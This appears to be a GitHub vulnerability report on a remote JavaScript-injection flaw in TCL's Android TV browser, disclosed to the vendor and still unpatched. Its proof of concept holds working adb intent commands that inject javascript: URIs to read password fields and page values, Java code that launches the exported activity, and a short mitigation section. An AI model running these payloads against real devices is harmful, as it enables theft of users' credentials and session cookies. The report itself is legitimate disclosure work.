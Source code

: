 *** This vulnerability was initially disclosed to TCL on 9/2023 & is still vulnerable as of this commit. ***


![image](https://github.com/actuator/com.tcl.browser/assets/78701239/82062ff5-9806-499b-85ed-68cb3594e8ae)



## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.tcl.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - Shenzhen TCL New Technology Co., Limited
- **Application Name:** 'Browser TV Web - BrowseHere' com.tcl.browser
- **Version:** 6.60.055_e974ebe7_231109_gp
- **Component:** com.tcl.browser.portal.browse.activity.BrowsePageActivity

### Vulnerability Details:

- **Vulnerability Type:** Remote Code Execution (RCE)
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.tcl.browser.portal.browse.activity.BrowsePageActivity` activity in the `com.tcl.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.tcl.browser` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely.

### Proof of Concept (PoC):


![image](https://github.com/actuator/com.tcl.browser/blob/main/poc.gif)

These ADB commands inject JavaScript to extract password data & browser session cookie & can be accomplished without ADB with no permissions.


```bash
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20password%20%3D%20document.getElementById(%27pass%27).value%3Balert(%27Password%3A%20%27%20%2B%20password)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

Facebook.com

![image](https://github.com/actuator/com.tcl.browser/blob/main/Facebook.gif)


![poc](https://github.com/actuator/com.tcl.browser/assets/78701239/15b32aff-92ac-41f2-9d48-4ae5a04ce354)

```
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20initialValue%20%3D%20document.querySelector(%27input[data-initial-value]%27).getAttribute(%27data-initial-value%27)%3Balert(%27Initial%20Data%20Value%3A%20%27%20%2B%20initialValue)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

Google.com

![image](https://github.com/actuator/com.tcl.browser/blob/main/Gmail.gif)

Session Cookie Theft: 
![image](https://github.com/actuator/com.tcl.browser/blob/main/cookie.gif)






---

To demonstrate the vulnerability, one can create a simple Android app that invokes the exported `BrowsePageActivity` activity:


    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Create the intent to start the BrowsePageActivity of com.tcl.browser app
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.tcl.browser", "com.tcl.browser.portal.browse.activity.BrowsePageActivity"));

        // Set the URL data you want to pass (for example "http://www.example.com")
        intent.setData(Uri.parse("http://www.example.com"));
        // OR intent.setData(Uri.parse("javascript:alert('...');"));

        // Start the activity
        startActivity(intent);
        finish();
    }



### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.tcl.browser` app.

The enabled 'settings.setDomStorageEnabled(true)' value in the app's WebView allows for the use of the Web Storage API.

Risks include:

Credential harvesting if websites store sensitive data.
Manipulating or flooding stored values.
Assisting in malicious persistence.

### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary.
If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.


